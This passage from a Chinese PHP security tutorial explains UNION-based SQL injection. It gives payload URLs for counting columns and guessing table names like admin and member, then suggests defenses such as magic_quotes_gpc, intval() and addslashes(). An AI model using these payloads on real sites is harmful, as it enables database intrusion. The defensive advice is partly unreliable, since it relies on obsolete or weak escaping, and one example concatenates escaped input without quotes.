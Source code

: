 ```

在快速确定未知数据结构的字段和类型的基础上，可以进一步的分析整个数据结构，猜表名，其实使用UNION联合查询的时候，不管后面的查询怎样畸形，只要没有语句上的问题，都会正确返回，也就是说，可以在上面的基础上，进一步猜表名：
```
http://localhost/show.php?id=1 union select 1,1,1,1
```

返回正常内容，就说明这个文件查询的表内是存在3个字段的，然后再后面加入from table_name：

```
http://localhost/user.php?id=1 union select 1,1,1,1 from admin
http://localhost/user.php?id=1 union select 1,1,1,1 from member
http://localhost/user.php?id=1 union select 1,1,1,1 from user
```

如果这个表存在，那么同样会返回应该显示的内容，如果表不存在，当然就会出错，先获得漏洞的文件所查询表的数据结构，确定结果后再进一步查询表。

但有一个问题，由于很多情况下，很多程序的数据表都会有一个前缀，有这个前缀就可以让多个程序共用一个数据库:

```
site_article
site_user
site_download
forum_user
forum_post
```

对于加表明前缀的，可以做一个表名列表来跑。


**注入的防范**

防范可以从两方面着手，一是服务器，二是代码。服务器方面可以将magic_quotes_gpc设置为on，display_errors设置为off。

从代码层面:如果说php比asp易用，更安全，从内置的函数就可以体现出来，如果是整型的变量，只需要使用一个intval()函数即可解决，在执行查询之前，先处理一下变量

```
$id=intval($id);
mysql_query("select * from article where articleid='$id'");


mysql_query("select * from article where articleid=".addslashes($id)."")

```

字符串型的变量也可以用addslashes()整个内置函数，这个函数的作用和magic_quotes_gpc一样，使用后，所有的',",\和空字符会自动转为含有反斜线的溢出字符。

```
$username = addslashes($username)
mysql_query("select * from member where username='$username'")

mysql_query("select * from member where username=".addslashes($username)."")
```


使用addslashes()函数还可以避免引号配对错误的情况出现，而刚才的前面搜索引擎的修补方法就是直接把"_","%"转换成"\_","\%",当然也要使用addslashes()函数

```
$key=addslashes($key);
$key=str_replace("_","\_",$key);
$key=str_replace("%","\%",$key);
```